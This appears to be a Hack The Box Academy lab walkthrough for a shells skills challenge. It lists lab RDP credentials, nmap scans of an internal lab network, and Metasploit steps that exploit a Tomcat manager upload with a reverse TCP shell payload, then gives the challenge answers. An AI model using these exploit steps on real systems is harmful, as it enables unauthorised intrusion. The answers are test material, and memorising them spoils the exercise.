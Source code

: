 Hosts 1-3 will be your targets for this skills challenge. Each host has a unique vector to attack and may even have more than one route built-in. The challenge questions below can be answered by exploiting these three hosts. Gain access and enumerate these targets. You will need to utilize the Foothold PC provided. The IP will appear when you spawn the targets. Attempting to interact with the targets from anywhere other than the foothold will not work. Keep in mind that the Foothold host has access to the Internal inlanefreight network (172.16.1.0/23 network) so you may want to pay careful attention to the IP address you pick when starting your listeners.


xfreerdp /v:<target IP> /u:htb-student /p:HTB_@cademy_stdnt!
10.129.213.83

What is the hostname of Host-1? (Format: all lower case)


# Connect to the parrot machine
xfreerdp /v:<target IP> /u:htb-student /p:HTB_@cademy_stdnt!

# Open a terminal and scan ip range 172.16.1.0/23
nmap 172.16.1.0/23

# Three host identified: .11, .12, and .13. Host-1 is .11. Perform a nmap scan on open ports:
sudo nmap -sC -sV 172.16.1.11 -p80,135,139,445,515,1801,2103,2105,2107,3389,8080

# The hostname is displayed
Results: SHELLS-WINSVR

Exploit the target and gain a shell session. Submit the name of the folder located in C:\Shares\ (Format: all lower case)


# The Parrot machine has on Desktop a file called access-creds.txt. It contains several useful creds, such as those of Tomcat service.
# One of the services listed in the nmap scanner in Apache Tomcat 10.0.11 running on 8080. We will exploit that one:
msfconsole -q
search tomcat
use multi/http/tomcat_mgr_upload
set RHOSTS 172.16.1.11
set RPORT 8080
set target Windows Universal
set payload payload/generic/shell_reverse_tcp 
# After gaining access, go to c:\Shares
dir
Results: dev-share
